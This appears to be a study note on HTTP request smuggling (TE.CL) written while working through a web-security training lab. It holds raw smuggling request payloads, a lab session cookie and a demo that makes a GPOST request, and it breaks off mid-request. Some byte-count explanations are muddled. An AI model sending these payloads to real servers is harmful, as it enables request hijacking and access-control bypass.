 >
  _**With H/1 , there is disagreement  between the Front End and the Back End
  server, on whether to use the Content-Length, or the Transfer -Encoding header, to know the length of the message.
>This is what makes it exploitable.
>
>This does not exist in H/2 because the length is built into the frame layer
>
---

##### TE.CL
Here, the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. (That's why those two headers are in both requests) We can perform a simple HTTP request smuggling attack as follows:

>`POST / HTTP/1.1`  
>`Host: vulnerable-website.com`  
>`Content-Length: 4`  
>`Connection: keep-alive`  
>`Transfer-Encoding: chunked`   <- used by the front end in TE.CL 
>
>` 7b` <-- 4 bytes to be processed as specified by the `Content-Length` in the 1st request
>`GET /404 HTTP/1.1`
>`Host: vulnerable-website.com`
>`Content-Type: application/x-www-form-urlencoded`
>`Content-Length: 30`  
>`x=`  
>`0`  

In this case the **reverse-proxy** will **send the whole request** to the **back-end** as the **`Transfer-encoding`** indicates so. But, the **back-end** is going to **process** only the **`7b`** (4bytes) as indicated in the `Content-Lenght` .Therefore, the next request will be the one starting by `GET /404 HTTP/1.1`

---
#### _Demo: 
- Smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

- Using the Turbo Intruder TE.CL Attack, Multiple duplicate requests made, in this order:

POST / HTTP/1.1
Host: ac251f861ffc8725c06a343700b9003d.web-security-academy.net
Cookie: session=TmGWbnPLPMbUr4iwIZob57sBH4i2kuMK
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
tRANSFER-ENCODING: chunked

3
x=y
0

---
>`POST / HTTP/1.1
>`Host: ac251f861ffc8725c06a343700b9003d.web-security-academy.net
>`Cookie: session=TmGWbnPLPMbUr4iwIZob57sBH4i2kuMK
>`Connection: keep-alive
>`Content-Type: application/x-www-form-urlencoded
>`Content-length: 12
>`tRANSFER-ENCODING: chunked
>
>`3
>`x=y
>`5c
>`GPOST / HTTP/1.1